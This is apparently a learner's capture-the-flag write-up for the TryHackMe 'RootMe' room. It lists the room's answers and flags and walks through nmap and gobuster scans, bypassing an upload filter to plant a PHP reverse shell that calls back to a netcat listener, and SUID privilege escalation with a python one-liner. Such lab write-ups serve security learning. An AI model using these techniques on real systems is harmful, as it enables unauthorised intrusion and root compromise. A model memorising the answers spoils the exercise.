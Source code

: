 # RootMe

**Date:** 09.02.2025  
**Difficulty:** Easy

---

## Questions and Answers ✅

1. Scan the machine, how many ports are open?
`2`
2. What version of Apache is running?
`2.4.29`
3. What service is running on port 22?
`ssh`
4. What is the hidden directory?
`/panel/`
5. user.txt (flag)?
`THM{y0u_g0t_a_sh3ll}`
6. Search for files with SUID permission, which file is weird?
`/usr/bin/python`
7. root.txt (flag)?
`THM{pr1v1l3g3_3sc4l4t10n}`
---

## Obtained Information 🔍

- **Target IP Address:** `<IP_ADDRESS>`
- open ports: 22 | 80
- website lets unverified file upload and we can access uploaded files
- 

---

## Process 🕵️‍♂️

1. Using nmap to scan open ports:
```bash
nmap -sV -sS <IP_ADDRESS>
```

*Results*
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

So we have found answers for 3 questions at once!

2. Using gobuster to get hidden directory:
```bash
gobuster dir -u "http://<IP_ADDRESS>" -w ./Desktop/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -r -x .js,.php
```

*Results*
```bash
/index.php            (Status: 200) [Size: 616]
/.php                 (Status: 403) [Size: 278]
/uploads              (Status: 200) [Size: 744]
/css                  (Status: 200) [Size: 1126]
/js                   (Status: 200) [Size: 959]
/panel                (Status: 200) [Size: 732]
/server-status        (Status: 403) [Size: 278]
```

Another question answered!

3. Exploiting unauthorized files upload available on web server by setting up listening on port 1234 for incoming connections:
```bash
nc -vnlp 1234
```

and uploading reverse shell script (after editing line 49 and 50):
*script:* https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

4. While trying to upload a file we get an error, saying that we can't upload php files. We can omit that in many ways. I used adding dot (.) at the end of the file name (after extension).

5. Now we got control over target system. Running 
```bash
find . -type f -name "user.txt"
``` 
we can find that file in var/www directory and 
```bash
cat ./var/www/user.txt
```

We got a flag!

6. Next we use command to search through files with SUID permission to say which file is weid:
```bash
find / -user root -perm /4000 | grep -v "Permission"
```
I wanted to exclude a lot of "Permission denied" files. The answer for the question is /usr/bin/python!

7. This file is weird, because it is present on *GTFOBins* list, which means we can use this file as vulnerability. One of there is privilege escalation:
```text
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor.
```

So we run found script:
```bash
$ /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
whoami  
root
```

Now we have access to root folder where we should find our second flag and answer to last question.

8. Flag found at root dir.

---

## Reflection & Questions for Further Research 🤔💡

- Why php script is executed when opened and python or bash scripts are not?

---

## Summary & Takeaways 📌📖

- learned that we can search for files that needs root permission 
- What is SUID (/4000)
- learned about GTFOBins and using binary files to escalate privileges (earlier thought that /bin means some container, like trash bin 🤣)

---